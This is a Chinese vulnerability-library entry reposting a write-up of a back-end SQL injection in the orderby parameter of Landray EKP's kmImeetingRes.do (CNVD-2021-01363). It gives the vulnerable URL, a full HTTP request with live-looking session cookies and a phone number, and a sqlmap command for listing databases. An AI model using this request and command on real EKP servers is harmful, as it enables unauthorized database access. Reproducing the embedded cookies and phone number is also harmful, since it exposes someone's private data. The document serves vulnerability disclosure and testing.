


# 蓝凌EKP kmImeetingRes.do orderby后台SQL注入

## 条目说明

- 对象与具体问题：蓝凌EKP；kmImeetingRes.do orderby后台SQL注入
- 版本、配置及部署条件：仅测试2021-03-24前版本，不是精确受影响范围
- 认证与权限前提：后台有效会话；角色样本模块管理员
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- orderby正文一处拼ordeby，参数名需纠正
- 只给正常orderby=1请求及sqlmap命令，真实注入结果仅截图

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/hA7aWTTSb6TIR4Ki1ND2sw)


**一****：关于文章🐑**

文章来自 @Miaòa 师傅的投稿, 目前 CNVD 已收录漏洞  

编号为 CNVD-2021-01363, 欢迎各位师傅前来投稿啦~



**二：漏洞描述🐑**

**深圳市蓝凌软件股份有限公司数字 OA(EKP) 存在 SQL 注入漏洞。攻击者可利用漏洞获取数据库敏感信息。**

**三:  漏洞影响🐇**

**测试时间 2021-3-24 前版本**

**四:  漏洞复现🐋**

**存在 SQL 注入的 Url 为**

```
https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true
```

**其中存在 SQL 注入的参数为 **ordeby** ， 数据包如下**

```http
GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: keep-alive
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; j_lang=zh-CN; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616568455; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616568455; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616568455; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; add_customer=0; JSESSIONID=F4A2DFFF611470A0AA00C1B4CEB0800B; LtpaToken=AAECAzYwNUI0NTRBNjA1QkVFMEFsaXd3MjYdcI6ajDXZSNpXOsKhMSNAGaQ=; original_name=16b53df64e78c7c0ab2d4e54165a6415; roletype=%E6%A8%A1%E5%9D%97%E7%AE%A1%E7%90%86%E5%91%98; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616594251
```

**保存为文件，使用 Sqlmap 跑一下注入**

```
sqlmap -r sql.txt -p orderby --dbs
```



**经过测试，还存在其他地方的多个 SQL 注入，等收录了在公开出来啦~**

 ****六:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
